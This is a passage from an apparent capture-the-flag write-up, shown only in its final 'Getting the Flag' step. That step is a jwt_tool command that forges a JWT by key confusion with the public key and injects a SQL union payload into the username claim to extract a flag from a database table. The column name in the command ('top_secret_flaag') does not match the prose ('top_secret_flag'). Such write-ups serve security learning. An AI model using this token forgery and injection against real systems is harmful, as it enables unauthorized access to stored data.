 <figure><img src="../.gitbook/assets/Untitled 20.png" alt=""><figcaption></figcaption></figure>

From the response we can see that the `flag_storage` table has the flag `top_secret_flag`.

## Getting the Flag

Now to get the flag, use the following command:

{% code overflow="wrap" %}
```bash
jwt_tool $(cat ./sessionToken) -I -pc username -pv "someone' and 1 = 0 union all select 1,group_concat(top_secret_flaag),1 from flag_storage--" -X k -pk ./public.key
```
{% endcode %}
